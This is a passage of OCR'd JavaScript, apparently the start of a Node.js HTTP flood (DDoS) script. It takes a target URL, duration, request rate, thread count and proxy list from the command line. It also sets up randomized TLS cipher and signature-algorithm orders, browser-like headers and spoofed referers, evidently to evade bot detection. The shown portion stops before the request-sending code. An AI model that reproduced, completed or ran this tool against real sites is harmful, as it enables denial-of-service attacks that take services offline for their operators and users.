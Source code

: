  const args = {
     target: process.argv[2],
     time: parseInt(process.argv[3]),
     Rate: parseInt(process.argv[4]),
     threads: parseInt(process.argv[5]),
     proxyFile: process.argv[6]
 }
 const sig = [    
    'ecdsa_secp256r1_sha256',
    'ecdsa_secp384r1_sha384',
    'ecdsa_secp521r1_sha512',
    'rsa_pss_rsae_sha256',
    'rsa_pss_rsae_sha384',
    'rsa_pss_rsae_sha512',
    'rsa_pkcs1_sha256',
    'rsa_pkcs1_sha384',
    'rsa_pkcs1_sha512'
 ];
 const sigalgs1 = sig.join(':');
 const cplist = [
    "ECDHE-ECDSA-AES128-GCM-SHA256:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-AES128-SHA256:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-AES128-SHA:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-AES256-GCM-SHA384:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-AES256-SHA384:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-AES256-SHA:HIGH:MEDIUM:3DES",
    "ECDHE-ECDSA-CHACHA20-POLY1305-OLD:HIGH:MEDIUM:3DES"
 ];
 const accept_header = [
     "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", 
     "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
     "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
 ]; 
 const lang_header = ["en-US,en;q=0.9"];
 
 const encoding_header = ["gzip, deflate, br"];
 
 const control_header = ["no-cache", "max-age=0"];
 
 const refers = [
     "https://www.google.com/",
     "https://www.facebook.com/",
     "https://www.twitter.com/",
     "https://www.youtube.com/",
     "https://www.linkedin.com/"
 ];
 const defaultCiphers = crypto.constants.defaultCoreCipherList.split(":");
 const ciphers1 = "GREASE:" + [
     defaultCiphers[2],
     defaultCiphers[1],
     defaultCiphers[0],
     ...defaultCiphers.slice(3)
 ].join(":");
 